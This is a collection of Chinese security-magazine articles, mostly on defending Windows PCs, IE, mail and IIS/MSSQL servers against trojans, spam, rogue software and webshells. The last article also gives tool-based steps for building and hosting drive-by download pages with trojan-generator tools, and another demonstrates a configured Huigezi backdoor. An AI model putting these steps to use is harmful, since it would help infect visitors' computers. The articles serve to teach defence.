**编者小评论**：Ewido 确实是一款口碑不错的杀毒工具，作者非常详细地列举了杀毒软件的每一个功能，还体贴地写了一些小提示和小技巧，把自己的经验写在里面；处处为菜鸟着想，而且发过来的稿件也几乎没有错别字，语法通顺；说明作者写作已经有一定的功力了。但是也不是说这篇文章就没有缺点，几乎把杀毒软件的每一个功能都非常详细地介绍一遍，导致篇幅过长而且重点不突出，无疑给人一种臃肿的嫌疑。这是现在作者们投稿的一个通病，希望以后收到的稿件在稿幅上一定要注意收敛。

## 菜鸟不得不注意的 IE 安全

### 一、网站无补丁，防范有招数

作为使用最多的一种浏览器，IE 的安全是非常重要的，它甚至会影响到系统的整个安全。几乎绝大多数的网页木马都是通过 IE 浏览器来传播的。

#### 1. 检测浏览器的漏洞

对于绝大多数普通用户来讲，根本不了解 IE 会有什么漏洞，更不用说这些 IE 漏洞的原理了。那么如何知道我们的 IE 浏览器都存在哪些漏洞呢？其实我们可以通过一些安全站点对自己的 IE 浏览器进行安全扫描，它们不仅能找到我们 IE 浏览器中的漏洞，而且还会给出相应的解决方案。这样的站点有很多，比如 http://bcheck.scanit.be/bcheck/ ，通过它我们可以获取本机的 IE 安全信息，如图1。

- 关闭 ActiveX 支持，将 IE 的安全级别设置为“中级”以上。
- 关闭脚本支持，防止某些恶意脚本对本地计算机进行非法操作。
- 安装杀毒软件和防火墙，将病毒库升级为最新。这样即使 IE 漏洞补丁未被补上，攻击者要发动攻击也要通过杀毒软件和防火墙这两关。
- 注意留意一些安全新闻站点，它们会给出暂时的解决方案。当然也要随时注意微软发布的安全补丁，这点非常重要。

#### 2. IE 存在漏洞但没有修复补丁情况下的防范

及时到微软的安全站点去打补丁是必须的，不过这还不够，因为还有一些漏洞被公布后暂时没有相应的补丁下载（这也就是常说的 0day）。这种情况下，我们可以通过禁止使用某些存在安全漏洞的组件或者服务来增强 IE 的安全。

### 二、双刃剑——ActiveX

当打开某个网站时，IE 突然进入假死状态，等一会儿系统就会弹出一个要你安装某东西的对话框，这就是大名鼎鼎的 ActiveX 插件。ActiveX 是一把双刃剑，一方面浏览某些网站需要它的支持，如使用 WINDOWSUPDATE 时需要安装 update class，访问某些 3D 全景图片站点时需要安装 vrm 等；而另一方面，有很多恶意网站通过它来做一些非法的事情，一些网页的恶意代码就是通过 ActiveX 来安装的。

#### 1. 如何管理本地计算机的 ActiveX

既然 ActiveX 有利有弊，那么我们怎么知道哪些需要安装、哪些不需要安装呢？这就需要一个 ActiveX 的管理软件。我们可以使用系统自带的 dxdiag.exe 查看本地计算机安装的 ActiveX 信息，但是要操作 ActiveX 的话，我还是建议使用工具 ActiveX manager（以下简称 AM）。

ActiveX manager 安装运行后的界面如图2所示，我们可以看到系统中已经注册的插件。选中其中任意一个，就可以在“ActiveX control”一栏中看到 ActiveX 的名字、发行商、ID 等详细信息；在“file”栏中可以看到其安装（"create"）、修改（"MODIFIED"）、使用（"ACCESSED"）的日期。

如果想删除某一插件，按右键“unregister”命令就可以删除该插件。对于恶意插件，虽然我们能够删除，但是当下一次登录该站点时又会被重新安装，这的确令我们很无奈。事实上，我们使用 ActiveX manager 还可以永久屏蔽某些恶意软件。

单击“report”按钮，在此窗口中单击“generate”，该软件会生成一个 HTML 页面来显示当前系统安装的 ActiveX 信息。在 HTML 页中找到 ActiveX 控件，并找到“CLSID”，如图3，然后我们编写一个注册表文件就可以永远屏蔽该 ActiveX 控件（当然这个控件是恶意的），代码如下：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\X]
"Compatibility Flags"=dword:00000400
```

上边的 X 为我们刚才记下的 CLSID。现在我们只要导入注册表文件就可以屏蔽该 ActiveX 控件了。

#### 2. IE 设置管理 ActiveX 控件

- 点击 IE 的“工具”-“Internet 选项”，在“常规”选项中单击“设置”按钮，单击“查看对象”，可以看到部分 ActiveX 的踪迹，右键选择“属性”可查看详细信息，也可执行删除操作。
- 点击 IE 的“工具”-“Internet 选项”-“安全”-“自定义级别”，打开“安全设置”窗口，可设置“禁用”“提示”或“启用”ActiveX 插件。建议优先设置为“禁用”，遇到问题再改为“提示”。

### 三、酸酸甜甜就是我——COOKIES

相信大家对 COOKIES 并不陌生，COOKIE 欺骗大家都玩过吧；对于 IE 浏览器的安全，我们也需要管理好计算机上的 COOKIES，使用 cookie manager（以下简称 CM）就可以轻松地完成管理任务。

- 禁用和启动某个站点的 COOKIES：运行 cookies manager，在“NEW”栏中选中要操作的 COOKIES；如果要启用则移送到“keep”栏，禁用则移送到“destroy”栏中（如图4）。
- 清除 COOKIES：选中需要删除的 COOKIES，单击右上角的“回收站”图标即可。

### 关于 COOKIES 的几点补充

- 可以在“工具”-“Internet 选项”的常规选项中删除 COOKIES。
- 访问某些论坛时可以使用“文件”-“导入和导出”命令将站点 COOKIES 保存起来，下次再导入。对需要输入“验证码”的网站也同样有用。若因过期导致失效，可编辑 COOKIE 的使用时间（如将 `FALSE` 后面的前两位数字由 10、11、13、14 等改为 16）。

### 四、抽象但好管理的证书

证书可能是 IE 最神秘的区域了，其实它就是一些证书发行商（如 VERISIGN 等）为网站发放的通行证。证书中包含了表明特定软件程序是正版的信息，这确保了其他程序不再使用其标识。当浏览网页时，IE 会验证证书中的信息是否安全，以及当前日期是否在证书有效期内。

针对证书漏洞进行攻击的例子很早就有过，例如 2002 年的 SSL 证书认证中间人攻击安全漏洞，因此有必要了解证书的管理方法。

#### 1. 管理证书

方法一：依次打开“工具”-“Internet 选项”，切换到“内容”选项，单击“证书”按钮，就可以看到本地计算机上安装的证书信息。切换到“受信任的根证书颁发机构”选项，选择其中一个证书，如“MICROMEDIA”，单击导出按钮将它导出为一个 CER 格式的文件，日后将它导入就可以免除重装的麻烦了。

方法二：在“开始”-“运行”栏中输入 certmgr.msc 命令打开“证书管理器”，可以对本机证书进行添加、删除、导入、导出操作。

### 五、犹抱琵琶半遮面——脱机网页

IE 浏览器提供的离线浏览功能实在让人无法容忍，比如查找曾经在线听过的某首歌、看过的某个经典 FLASH 等都非常烦琐。有一款非常不错的 IE 插件 CACHEX，我们可以使用它来代替 IE 的离线浏览功能。CACHEX 的使用非常简单，安装完后，软件会自动加载当前的脱机网页，你只需要像使用资源管理器一样浏览网页就可以了，其运行后的界面如图5所示。网上也有相关的汉化补丁，但是我相信这点英语水平我们还是有的。

（文章中涉及到的工具 ActiveX manager、cookie manager、CACHEX 已经收录于光盘中）

## 教你几招 对付网络江湖中的“四大恶人”

临床 宋伟

网络江湖里的“四大恶人”到底是什么呢？我把它们归结为木马、流氓软件、病毒、垃圾邮件。不管你是老鸟还是菜鸟，只要是在这个网络江湖上混的，就一定会碰到过这“四大恶人”。快来跟我学几招吧，这样即使我们以后碰到了“四大恶人”也不用再提心吊胆了！

### 一、菜鸟的最“爱”——木马

“四大恶人”中最令我们关注的就是木马了。传统木马一般都包括客户端和服务端，比如国外最早的 BO，国内早期曾广泛使用的冰河等。随着木马查杀技术的提高，当人们认为木马可以完全消灭的时候，新的木马又产生了，先是反向连接木马，可以轻松突破防火墙；后来出现的 DLL 木马可以轻松实现进程隐藏。

和木马打了这么长时间的交道，我总结出一个查杀木马的思路：木马的发现 → 杀毒软件查杀 → 木马进程的结束 → 系统的修复 → 启动项目的清除。

- 木马的发现
- 杀毒软件的查杀
- 木马进程的结束
- 系统的修复
- 木马启动项的清除

1. 木马的发现：当我们感觉到系统异常的时候，可以通过查看本地计算机开放的端口来判断自己是否中了木马……建议使用 FPORT.EXE 类程序查看进程 PID、PORT 及磁盘位置。  
2. 杀毒软件的查杀：虽然杀毒软件多数情况下可查杀木马，但木马常通过加壳、捆绑、图片更改、特征码修改等方式伪装，因此不能完全依赖杀毒软件。  
3. 木马进程的结束：可使用任务管理器，或 MT-PSLIST、MT-PSKILL 按 PID 结束；DLL 木马可用 listdlls 查询并结束 DLL 进程。  
4. 系统的修复：对于中木马的电脑，主要是文件关联修复。可先导出备份，CMD 下用 ASSOC >1.TXT 记录正常关联，再对比受感染时导出结果进行修正。  

下面我把经常被木马修改的一些文件关联列出来，这样在修复的时候我们就更有侧重点了。

```text
EXE 文件关联：
[HKEY_CLASSES_ROOT\exefile\shell\open\command] 默认值是 "%1" %*

TXT 文件关联：
[HKEY_CLASSES_ROOT\txtfile\shell\open\command] 默认值是 "%SystemRoot%\system32\NOTEPAD.EXE %1"

COM 文件关联：
[HKEY_CLASSES_ROOT\comfile\shell\open\command] 默认值是 "%1" %*

INI 文件关联：
[HKEY_CLASSES_ROOT\inifile\shell\open\command] 默认值是 "%SystemRoot%\System32\NOTEPAD.EXE %1"

INF 文件关联：
[HKEY_CLASSES_ROOT\inffile\shell\open\command] 默认值是 "%SystemRoot%\System32\NOTEPAD.EXE %1"
```

5. 木马启动项的清除：对于常见的启动项加载，可通过 msconfig 命令及注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\Explorer\Run` 检查。包括：  
（1）组策略的启动：在“开始”-“运行”输入 `GPEDIT.MSC` 打开组策略等。依次展开“用户设置”→“系统”→“登录/注销”→“在用户登录时运行这些程序”，点“启用”后单击“显示”再单击“添加”，并且在文本栏中键入可执行程序文件或文档文件的名称。除非文件位于 `%SystemRoot%` 目录中，否则必须指定该文件完整有效的路径。我们还要注意，这个策略同时出现在“计算机配置”和“用户配置”文件夹中。如果两个策略都配置，系统会先启用计算机配置中的设置，然后才启用用户配置中的设置。  

（2）注册表中除常见 RUN 以外的可启动木马的地方。下边列出了一些木马启动的注册表键值供参考：

- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\Explorer\Run`
- `HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows` 下的 `load`
- `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`
- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`（`Notify`、`Userinit`、`Shell`）
- `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System\Shell`
- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad`
- `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System\Scripts`
- `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\System\Scripts`

大家需要注意 `HKEY_LOCAL_MACHINE` 和 `HKEY_CURRENT_USER` 的区别：前者加载的木马程序会在系统所有用户登录时启动，而后者只对当前用户登录时启动。  

（3）“开始→程序”中的“启动”菜单也可能被利用进行自启动。  

（4）服务启动是一种非常隐蔽的启动方式，木马可注册为系统服务并随系统启动执行。

```bat
net start >2.txt
fc 1.txt 2.txt >3.txt
notepad.exe 3.txt
```

保存为“查看服务.bat”存放到“系统服务”文件夹，当确定中了木马时可直接运行该 BAT 文件查看异常系统服务信息。  

（5）`win.ini`、`system.ini`、`autoexec` 等文件的启动项也应检查。

### 二、网络书生——垃圾邮件

人们常说百无一用是书生，现在网络上的“书生”非垃圾邮件莫属。我们先来看一下垃圾邮件的制作过程，然后再来介绍它的防范。

#### 1. 垃圾邮件的制作过程

垃圾邮件的制作过程一般分为两个步骤：第一步获取大量 EMAIL 地址；第二步进行批量发送。

#### （1）大量 EMAIL 地址的获取

获取 EMAIL 地址是制造垃圾邮件的第一步，也是一个前提。一般获取方法有如下四种：

- **A：购买**，从不负责任的网站站长处低价购买注册资料。
- **B：扫描**，通过扫描网站抓取大量 EMAIL 地址（如地址扫描软件）。
- **C：共享**，垃圾邮件制造者之间交换收集到的 EMAIL 地址。
- **D：软件生成**，通过地址生成器批量生成可用邮箱地址。

##### （2）批量发送

批量发送是垃圾邮件制造者实质性的工作。

- **A**：使用群发软件批量发送（如常见群发工具）。
- **B**：自建邮件服务器进行投递（如 WEB 方式群发平台）。
- **C**：不断改变发送内容和方式，以绕过 ISP 过滤和限制。

#### 2. 垃圾邮件的防范

从上面的制造过程我们可以总结出下面几种防范方法。

- **（1）不要在陌生小网站泄露自己的 EMAIL 信息**。可准备两个邮箱：一个用于日常工作，一个用于网站注册。
- **（2）使用网站过滤垃圾邮件**。如果没有邮件管理软件，可使用 WEB 邮箱的在线过滤服务（文中示例为 0spam 注册过滤）。
- 然后使用注册的账户和密码进行登录，会出现如图2所示的表单，填写好自己的 EMAIL 地址、用户名、密码以及服务器地址。如果使用的 EMAIL 服务器是 163 的，填写 `POP.163.COM`，其他邮件服务器输入相同，输入 `POP+邮件服务器地址` 即可。这样就能轻松实现在线防范垃圾邮件。另外，如果发现网站操作错误，把正当邮件弄成了垃圾邮件，可以点击 JUNKMAILS 进行恢复，因为所有操作文件都缓存在站点服务器上。
- **（3）如果使用了 OUTLOOK EXPRESS 或者 HOTMAIL 等邮件管理软件**，可以通过简单设置搞定垃圾邮件，这些软件都提供了这方面的设置，全是傻瓜式操作，这里不再赘述。
- **（4）使用专门的反垃圾邮件工具**。我向大家推荐的是 G_LOCK spamcombat，这个工具也可以说是反垃圾邮件工具中的瑞士军刀。软件第一次运行后进入到邮件服务器设置界面，如图3，通过简单设置就可以使用软件了，如图4。它和 Hotmail、Outlook Express 一样都设置了白名单、黑名单等，绝对是一款不可多得的邮件远程管理器。设置好账号后直接点击第一个图标“check-account(s) now”就可以了，我们还可以在第四个图标中对软件进行进一步的个性设置。只要懂点英文就可以轻松操作，网上也有它的汉化包。在截图中大家可以看到一个 DNSBL FILTER（DNSBL 筛选）：“DNSBL”是什么意思？说得通俗点，就是国外反垃圾邮件组织所收集的有关黑名单的数据库，软件通过与数据库中的信息进行比较，从而确定是否为垃圾邮件。

好了，有了这点知识，我想各位读者的邮箱不会再出现垃圾邮件塞满的现象了。

### 三、网络新势力——流氓软件

或许一两年前，人们从没有想到过会把“流氓”和“软件”这两个词扯到一起，并组成一个时髦的新名词——“流氓软件”，更不会想到今天的它会成为网络江湖中的四大恶人之一。

说起木马和病毒，大家并不陌生，毕竟它们出来混江湖也有好多年头了。但是说起流氓软件，大家对它的了解可能就比较少了。我们可以把流氓软件认为是一种恶意的间谍软件、恶意的共享软件以及系统监视软件。从特点上来说，其实就是存在于合法商业软件与病毒木马之间的一种软件，它们不仅具有商业软件的合法地位，而且还具有病毒木马的一些特点。可无论怎么说，它毕竟是网络四大恶人之一，我们必须学会如何防范它。

#### 1. 用专门的软件进行查杀

鉴于流氓软件自身的特点，我们在查杀过程中必须使用专门的软件进行查杀。微软的 ANTISPYWARE 就是众多反流氓软件中不错的一个，微软现在又推出了它的 BETA2 版并正式更名为 WINDOWS DEFENDER。正是因为它名气大，所以网上有很多关于它的文章，大家可以下载后试用一下。

我向大家推荐另一款很适合国人的反流氓软件工具——恶意软件清理助手。它是一款绿色软件，功能也不错，软件运行后的界面如图5。软件提供的系统清理功能很强大，不仅可以清除恶意软件，还可以在系统启动项、注册表、临时文件夹等有可能让恶意软件启动的地方进行检查清除。

另外它还可以在线升级，在所提供的系统工具中还提供了“浏览器修复”“注册表备份”等功能。更有个性的是它还提供了 DOS 下的工具，可以说是一款不错的流氓软件查杀工具。

#### 2. 加强网络防护

除了杀毒软件外，还要安装网络防火墙，开启杀毒软件的“实时监控”功能，定期升级浏览器，甚至换用 FIREFOX 等非 IE 内核浏览器，防止恶意软件钻系统空子。

#### 3. 检查下载后的文件

软件下载后，在安装之前最好阅读一下软件使用说明或者 README 文件。有些软件作者为了某些利益，在所写的软件中捆绑了流氓软件，如果用户不知道，在安装过程中会不经意间就安装上流氓软件。另外某些游戏中也存在流氓软件，比如联众游戏等，这在 X 档案上曾经有过介绍，大家可以找出来看一下。

### 四、计算机高手的杰作——病毒

## 安全第一

钓鱼病毒，可以说这三种病毒是目前病毒家族中的三大巨头。在网络四大恶人中，病毒的危害无疑是最大的。

### 1. 使用杀毒软件杀毒

最关键的不是安装杀毒软件，而是定时升级杀毒软件。目前国内市场上的杀毒软件主要有瑞星、金山毒霸和江民，以及国外的诺顿、卡巴斯基和 McAfee 等。它们各具特色，不好判断谁好谁坏。国外的杀毒软件内核强大，杀毒功能更强。国内的杀毒软件虽然在内核上无法与国外杀毒软件相比，但是在对付国内病毒以及占用资源方面又远远优于国外的杀毒软件。

### 2. 紧跟微软的步伐

我们还必须时刻注意微软发布的补丁，尽可能早地打上补丁。在 06 年第 8 期的 X 档案中，我曾经写过一篇关于如何打补丁的文章，菜鸟们可以看一下。

### 3. 一些注意事项

- 最好购买正版的软件，市场上很多盗版的软件都可能存在病毒。
- 谨慎使用下载的软件。

Internet 上有无穷尽的资源，但是没有人敢保证所有可下载的东西都是“绿色产品”，特别是一些网络游戏的外挂。而一些中、小型网站的下载工具中，一些号称“免费”的网络资源也经常会隐藏有令人意料不到的东西。这确实是一个很难防范的问题。我希望各位读者能够养成良好的下载习惯，一般不要去小网站下载东西；对任何下载的文件和程序都不要直接打开，而是先使用杀毒软件查毒后再打开。另外还可以使用大型软件提供商提供的 MD5 值进行校验，把我们下载的软件拖动到 WINMD5 这款工具中，就可以得到该文件的 MD5 值，再去软件的官方网站进行 MD5 校验，在一定程度上也可以防止病毒。

- 在网上经常碰到一些 QQ 好友发的网址，对于这些网址我们一定要三思而后点，以防中 IM 病毒。

> （文章中涉及到的工具 Point.exe、listdlls.exe、winmd5.exe、恶意软件清理助手，光盘中已收录）

在《黑客 X 档案》上曾经看过很多关于服务器安全防范的文章，受益匪浅。这些文章使得我对于服务器的配置有了初步的认识。在此，我将自己在入侵过程以及服务器配置过程中总结出的一些小技巧分享给大家，望大家能够各取所需！目前流行的 Web 入侵方式都是通过寻找程序的漏洞先得到 webshell，然后再进行提权。因为所用的 Web 程序大都不是自己写的（就算是自己写的也难保证没有任何漏洞），所以配合服务器的设置来防止 webshell 是很有效、也是很有必要的措施！

### 一、防止数据库被下载

有很多网站失守都是因为没有修改默认数据库，或是因为程序出错暴露了数据库地址而被非法下载。如何防范这种情况呢？我们可以添加 MDB 的扩展映射。具体步骤是在“IIS 属性”→“主目录”→“配置”→“映射”→“应用程序扩展”里添加 .mdb 文件的应用解析（图1）……

……找到该页就可以了，我选择的是 wam.dll（图2）。这个方法有很多好处：

- 只要是 MDB 的数据库文件就肯定下载不了；
- 服务器只要这样修改了，对整个服务器的 MDB 文件都管用，对于虚拟主机的管理员很有用处。

### 二、防止上传

使用前面说的方法防止了数据库下载，可以抵挡住一些进攻了，但是还有很多隐患。要是使用的是 MSSQL 数据库，只要有注入点还是一样可以猜解密码进入后台；倘若上传文件根本就没有身份验证的话，甚至连后台都不用进入，就可以获取 webshell！对于上传我总结了一个口诀，那就是：可以上传的目录不给执行权限，有执行权限的目录不允许上传。Web 程序是通过 IIS 用户运行的，我们只给 IIS 用户在一个特定的上传目录有写入权限，然后又把这个目录的脚本执行权限去掉，就可以防止入侵者通过上传来得到 webshell 了。

……最后在这两个目录的“属性”→“执行权限”选项把“纯脚本”改为“无”就完成了（图5）。

### 三、MSSQL 注入

刚才我们提到了 MSSQL 数据库，对于这样的注入，不用猜解用户名和密码也是可以拿下的。对于这类入侵的防御首先要从数据库连接账户开始。特别注意连接数据库千万不能用 SA 账户，这个问题也是老生常谈了，但在入侵中还是经常会碰到有这样的情况。再次提醒广大管理员，使用 SA 账户连接数据库简直就是灾难！一般来说可以使用 DB_OWNER 权限的账户连接数据库，要是可以正常运行，使用 public 是最好的。

设置成 DB_OWNER 权限连接数据库之后，入侵者基本就只能通过猜解用户名密码或者差异备份来获取 webshell 了。对于猜解密码，只需要加密和修改管理后台就可以防御。下面我们重点说说差异备份的防御。

我们都知道差异备份的条件是有备份的权限，而且知道 Web 目录。先从 Web 目录方面说起，现在找 Web 目录的通用方法是从注册表里读出 Web 目录，或者列出主机目录自己找，这两个方法其实是用到了 xp_regread 和 xp_dirtree 两个扩展存储。我们只要把它们删除就解决问题了，当然最好还要删除对应的 dll 文件（图6、图7）。

这样还不是很保险，万一程序自己暴出了 Web 目录呢？所以还要让账户的权限更低，无法完成备份。具体操作如下：在这个账户的“属性”→“数据库访问”选项里，只需要选中对应的数据库并赋予其 DB_OWNER 权限，对于其它数据库不要操作（图8）。接着还要到该数据库“属性”→“权限”，把该用户的“备份”和“备份日志”的权限去掉（图9）；这样入侵者就不能通过差异备份来获取 webshell 了。

上面介绍了如何防御网站被入侵者得到 webshell 的一些方法，但是不要以为这样就万无一失了，总有我们没有想到的地方，也总会有新的入侵方法。所以我们还是要做好服务器被得到 webshell 后的准备，未雨绸缪，这样才能尽量减少损失。

## BT 系统配置秀

赵俊飞

由于我所在的城市进行医保改革，医保系统也由原来的终端机联网改为 PC 了。在短短一周的时间内，由于不妥善管理造成电脑两次严重中毒，领导让我们做一下限制，以防电脑中毒给医院造成不必要的损失。最终要实现的目标为：

- 只能登录医保网站，其余网站一律禁止；
- D、E 盘无法读写，C 盘个别目录可读也无法写；
- GUEST 用户自动登录；
- GUEST 用户给予关机权限；
- 光驱、USB 设备禁止运行，无声音。

也就是说这台电脑只能完成医保功能，其余通通禁止。下面来看一下我的具体设置方法。首先在硬件方面下手，光驱与多功能读卡器通通摘掉，贴上封条，然后进入 BIOS 中，在 Integrated Peripherals 下有两个选项，一项为 ac97 audio，另一项为 usb controller，把这两个选项都设为 Disabled，停掉声音与 USB 端口。声音停掉不用听歌看片了，USB 端口禁用是为了防止插入 U 盘之类的硬件捣鼓数据。最后在 BIOS 中加一个强壮的密码，BIOS 部分就设置完成了。

由于医保局对系统要求为 Win2000 或是 WinXP，两者选一，我选择的是 WinXP 系统。系统的安装：安装最小的组件，把不用的通通卸载掉，包括附件里的游戏。磁盘分为三个区，C 盘为系统盘，D 盘为 GHOST 盘，E 盘为软件盘，格式均为 NTFS。有一点需要注意的是安装完系统之后，要把杀毒软件与防火墙配置好之后再联网。

杀毒软件我使用的是金山毒霸 2007，个人嗜好，觉得还不错，有个漏洞扫描器可以随时更新系统漏洞；而防火墙，我使用 XP 系统自带的 ICF，个人用户足够用了，简单好配置。再把 TCP/IP 筛选里设置一下，打开“本地连接”→“属性”，选择“TCP/IP 属性”→“高级”→“选项”→“TCP/IP 筛选属性”，启用 TCP/IP 筛选……确定（图1）。

下边进行对系统的配置。进入超级用户，给超级用户加一个强壮的密码。新增加一个用户，设为用户不能更改密码，密码永不过期，密码设为空（图2），加入 GUESTS 组里，作为普通用户，不设有特权（图3）。

由于 NTFS 的特性，我把 D 盘、E 盘设为只有 administrator 有权限进行读写，其它用户均删掉。这样就达到了 GUEST 用户无法访问 D、E 盘了（图4）。

C 盘除设为 administrator 有全部权限外，还有给 yb 用户读取及运行的权限，不要另加写入权限（图5）。

如果大家在磁盘属性里找不到“安全选项”的话，请选择“工具”→“文件夹选项”里“查看”下的“使用简单文件共享”的勾去掉即可（图6）。

GUEST 用户的自动登录方法：在“开始”→“运行”里输入如下命令 `control userpasswords2`，打开用户账户，把“要使用本机，用户必须输入用户名与密码”选项前的勾去掉（图7）。点击“应用”，出现图8窗口，直接点击确定即可（图8）。

接下来我们要给 GUEST 账户关机权限。在运行中输入 `gpedit.msc`，打开组策略选项，在“计算机配置”→“Windows 设置”→“安全设置”→“本地策略”→“用户权利指派”中找到“关闭系统”，把所建的 GUEST 用户 yb 添加进去，这样 yb 用户就可以关闭计算机了（图9）。

最后进行 IE 的设置。以上控制方法都是很简单的，对于 IE 的控制设置就有一些复杂了，我们主要用到 IE 的分级审查功能。首先把 IE 首页改为我们医院网站地址，以便打开 IE 即为工作界面（图10）。打开 IE 的“工具”下的“Internet 选项”，在“安全”里把“本地 Internet”和“受信任的站点”里分别加入医院网址，这样就可以保证来自这个站点的任何信息都可以接收，包括 ActiveX 的控件与插件都会通过，不会有任何提示。切换到“内容”选项，点击“启用分级审查”，选择“许可站点”，在这里填入许可网址，填入“*.*”，禁止任何网站，除我们需要的网站例外（图11）。

打开“常规”选项，点击“创建密码”，输入一个强壮的密码。这样当任何人打开一个我们不允许的网站时，都会要求输入密码才可以访问；当打开允许的站点时，根本不需要密码就可以直接进入（图12、图13）。到现在为止，上面所提到的功能已经都可以完成了，使用者不能登录任何网站，除医院网站例外。系统无任何游戏，D、E 盘禁止，C 盘无法创建目录、文件，但个别目录还是可写的，不过已经没有任何用处了。最后需要注意几点：做完系统、配置好之后，要给系统制作 GHOST，以防万一；E 盘存放一些 administrator 常用的工具；手工定期给杀毒软件升级病毒库及系统漏洞更新。这样几乎就可以阻止系统频繁被破坏了。如果有特别需要的话，我们还可以把系统设置得更苛刻一些。在这里我主要是利用了 NTFS 的特性、组策略的应用、分级审查功能，没有借助任何第三方软件就完成了此次工作，减少了 administrator 的繁重工作与时间。如无特殊情况，基本就不用改动系统了。

## DLL 插入终结者

Sharkyc

木马技术发展得真是快，从最早的木马伪装迷惑人的进程名，到现在木马的 DLL 插入技术，使木马的手工查杀变得越来越困难了。今天要给大家介绍两个软件：Advanced Process Manipulation（简称 APM）和 syscheck2，它们可以帮助我们在很大程度上终结 DLL 插入木马。

APM 是一款非常小的软件，只有几百 KB，它可以把进程所加载的 DLL 卸载，也可以向进程加载 DLL。打开 APM（图1），窗口分为上下两个部分，上面是现在运行的进程，点击一个进程，下面就是这个进程所加载的 DLL。点击右键有许多选项，可以查看当前进程运行的命令（图2）、结束进程、获得进程的地址、使进程使用最少内存等等。在下面窗口点击右键可以加载和卸载 DLL。

设置成插入 IE 进程（图3），双击打开配置好的灰鸽子，OK，上线了（图4）。打开任务管理器，看到有个 IE 进程。打开 APM 选择 IE 进程，在下面加载的 DLL 中向下找就能找到灰鸽子的 DLL 了（图5），右键选择 unload dll 卸载掉。点击右键还有个 load dll，就是向这个进程加载 DLL，选择你要加载的 DLL 点确定就好了。当然在你的电脑被插入了恶意插件、又无法删除的时候，就可以先用 APM 结束它插入到系统进程中的 DLL，再删除或重命名。

syscheck2 是一款国人编写的反黑利器（图6），功能非常强大，有进程管理、服务管理、文件定位等。在进程管理里红色显示的是非系统的进程或文件。点击一个进程可以列出进程包含的 DLL，对 DLL 不仅可以结束，还可以选择“结束并删除”“结束并禁止运行”等选项，是不可多得的利器。

说了这么多还是演示一下吧。我配置了一个灰鸽子 2006vip。我们打开配置好的灰鸽子服务端；在 syscheck2 选择模块简洁显示，把 Windows 系统的模块隐藏，方便寻找插入的 DLL。

点击 IE 进程（图7），看到了灰鸽子插入的两个 DLL，再看其它进程也被插入灰鸽子的一个全局 HOOK DLL。要是一个一个地去结束很麻烦，这时候就可以选择 IE 下的这两个 DLL，点击右键选择“卸载模块并删除文件”，点击确定。这个全局 HOOK DLL 不但结束了也被删除了，现在再看看灰鸽子控制端，这个服务端已经下线了。

对于一些顽固的 DLL，可以选择“加入到重启删除列表”，还可以再在服务管理里把木马的服务给删除了，这样再厉害的木马也启动不了。有了这两款软件，终结 DLL 注入和后门木马就可以放心地说 bye-bye 了。（本文所涉及到的 APM 和 syscheck2 已收录到光盘中）

## 让菜鸟远离网页木马

目前，绝大多数个人电脑所感染的病毒和木马，都是在访问网页时不知不觉所感染的；再加上这些木马通常都会经过免杀处理，因此单单指望我们的杀毒软件是绝对不行的。以前我只是热衷于制作各种网页木马以及如何实现免杀，肉鸡倒是提了不少；可是却同样也得注意自己电脑的安全呀。那么，要如何防范这些形形色色的网页木马呢？

### 1. 早期的冰狐浪子网页木马生成器

该网页木马生成器一共有四个文件，如图1。首先用我们配置好的木马程序替换其中的 #.exe 文件，然后运行“冰狐浪子超级网页木马生成器.jse”，就会在同目录下生成 icyfox.htm 及 icyfox.js 这两个文件，如图2。

Icyfox.htm 是木马页面，icyfox.js 是相应的脚本文件。把木马程序、木马页面和 icyfox.js 一起上传到空间的同目录下，一个网页木马就打造成功了。

那么如何防范这种网页木马呢？我们可以修改本地的安全属性：在“运行”栏中输入 regedit 启动注册表，找到相应的注册表键值 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\0`，把其下的 1004 项的值由原来的“0”改为十六进制的“3”；或者是去掉 mhtml 协议，也就是删除 `HKEY_CLASSES_ROOT\PROTOCOLS\Handler\mhtml` 键值。

### 2. 最新的 MS06014 网马

该网页木马利用的是 RDS.Dataspace ActiveX 控件中存在的一个远程代码执行漏洞，而 RDS.Dataspace ActiveX 控件是作为 ActiveX 数据对象（ADO）的一部分提供并在 MDAC 中分发的。可以说，这是当前危害性较大的一个漏洞了，被广泛应用于制作网页木马。

该网页木马的制作非常简单，我们使用小蔡编写的 MS06-014 木马生成器。在“木马地址”栏填写木马的地址，点击“生成网马”后，就会在同目录下生成一个叫 muma.htm 的文件，如图3。把木马程序和生成的木马页面上传到空间里，网页木马就打造完成了。

这两款网页木马都是只要一浏览木马页面，就会在后台自动下载并运行木马程序。我们以一个简单的 VB 程序代替木马，当访问页面 `http://127.0.0.1/muma.htm` 时，立马弹出了一个执行程序，如图4。

从上面介绍的那两款网页木马生成器的使用，我们不难看出，网页木马的生存离不开脚本、ActiveX 以及一些 JS 所需要的控件（如经常看到的 Scripting.FileSystemObject 和 WScript.Shell 控件等）。

ActiveX 漏洞主要针对老版本 IE 浏览器（主要是 6.0 以下版本），通过将 com.ms.activeX.ActiveXComponent 对象嵌入 `<APPLET>` 标记，从而任意创建、解释执行 ActiveX 对象，并在 IE 属性中对用户进行一系列恶意操作。我们可以更改 IE 属性、禁用 WSHShell 以及删除 wshom.ocx 的注册 ID（在注册表中）来达到防范目的。

脚本的控制和 ActiveX 控件可以在 IE 的属性里设置，打开 IE 属性选择“安全”-“Internet”项，把安全级别的滑杆向上拉到最高级，这样就把 ActiveX 和脚本的运行权限都限制了（如图5）。如果你想自定义设置，可打开“自定义级别”选择（如图6），然后按需要进行设置即可。

